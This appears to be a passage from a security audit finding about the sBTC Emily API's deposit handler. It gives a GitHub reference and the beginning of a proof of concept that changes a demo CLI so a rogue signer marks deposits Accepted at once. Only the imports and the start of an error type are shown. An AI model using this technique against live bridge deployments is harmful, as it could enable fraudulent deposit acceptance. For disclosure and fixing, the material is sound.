 ## References

https://github.com/stacks-network/sbtc/blob/891677e7602f97b2e088e9940b2b4536ae9aad1b/emily/handler/src/api/handlers/deposit.rs#L319

## Proof of Concept

## Proof of Concept

### How to run

1. Create a backup for demo\_cli.rs and replace its content with the code below.\
   Main changes:\
   a. Adds an update\_deposit\_status function that calls the Emily Api to change the status of a deposit request.\
   b. Changes exec\_deposit to call update\_deposit\_status(Accepted) immediately after the deposit request is sent to Emily (to emulate the rogue signer changing the status immediately after the deposit request arrives).

```rust
use std::str::FromStr;

use bitcoin::hex::DisplayHex;
use bitcoin::{
    absolute, transaction::Version, Amount, Network, OutPoint, ScriptBuf, Sequence, Transaction,
    TxIn, TxOut,
};
use bitcoin::{Address, XOnlyPublicKey};
use bitcoincore_rpc::json;
use bitcoincore_rpc::{Client, RpcApi};
use clap::{Args, Parser, Subcommand};
use clarity::{
    types::{chainstate::StacksAddress, Address as _},
    vm::types::{PrincipalData, StandardPrincipalData},
};
use emily_client::{
    apis::{
        configuration::{ApiKey, Configuration},
        deposit_api,
    },
    models::CreateDepositRequestBody,
    models::UpdateDepositsRequestBody,
    models::DepositUpdate,
    models::Status
};
use url::Url;
use std::time::Duration;
use std::thread;
use fake::Fake as _;
use rand::rngs::OsRng;
use sbtc::deposits::{DepositScriptInputs, ReclaimScriptInputs};
use secp256k1::PublicKey;
use signer::config::Settings;
use signer::keys::SignerScriptPubKey;
use signer::storage::model::StacksPrincipal;
use signer::stacks::api::{StacksClient, StacksInteract};

#[derive(Debug, thiserror::Error)]
#[allow(clippy::enum_variant_names)]
enum Error {
    #[error("Signer error: {0}")]
    SignerError(#[from] signer::error::Error),
```